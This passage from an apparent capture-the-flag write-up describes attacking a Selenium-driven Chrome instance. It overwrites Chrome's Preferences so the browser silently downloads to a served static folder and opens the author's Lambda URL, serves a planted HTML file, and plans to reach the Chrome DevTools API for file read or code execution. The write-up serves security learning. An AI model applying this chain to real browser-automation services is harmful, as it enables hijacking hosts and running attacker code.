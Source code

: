 I updated my script to download the `Preferences` file using the download vulnerability. Now that I had the `Preferences` file, I merged it with my own custom Preferences:

```
{
    "browser": {
        "download": {
            "dir": "/app/static",
            "useDownloadDir": true
        }
    },
    "download": {
        "default_directory": "/app/static",
        "prompt_for_download": false
    },
    "session": {
        "startup_urls": [
            "https://[snip].lambda-url.us-east-1.on.aws/"
        ],
        "restore_on_startup": 4
    },
    "homepage": "https://[snip].lambda-url.us-east-1.on.aws/",
    "homepage_is_newtabpage": false
}
```

This modified Chrome to:
- not prompt for downloads
- download files to `/app/static/` instead of `~/Downloads`
- immediately open my custom Lambda URL on startup

The next time I run `/api/visit`, Chrome will open my Lambda URL first, triggering the file download to `/app/static/`. Using the `Content-Disposition` header on my Lambda (the lambda code is below in the 'Full attack chain' section), I set the downloaded filename to `getter.html`. After my file is downloaded, I can tell the Seleium browser to visit my HTML file by calling `/api/visit` with `{"url":"http://localhost:1337/static/getter.html"}`. Now I'm running my own HTML/Javascript in the Selenium browser!

That's great... but still no RCE, but now I'm in a great position to keep trying my initial idea of leveraging the Chrome DevTools API or the ChromeDriver API to get local file read or RCE.

# Trying to use the Chrome DevTools API

My first thought was: what if I put Javascript like `window.location = "file:///"` and then used the `Runtime.evaluate` API in Chrome DevTools to execute Javascript on that tab to click on the flag and extract the contents?

Well, I had forgotten how to actually _connect_ to the Chrome DevTools API. If you're unfamiliar, basically:

1. Hit `http://localhost:[devtools port]/json/list`. This will give you a list of "open tabs" in Chrome along with a unique WebSocket URL per tab. Notably, the WebSocket URL has a random string inside of it (the tab ID). It looks like this: `ws://127.0.0.1:9222/devtools/page/5149DD3A883268445C34AD8986329854`
2. Connect to the WebSocket URL
3. Execute `Runtime.evaluate` or whatever other API
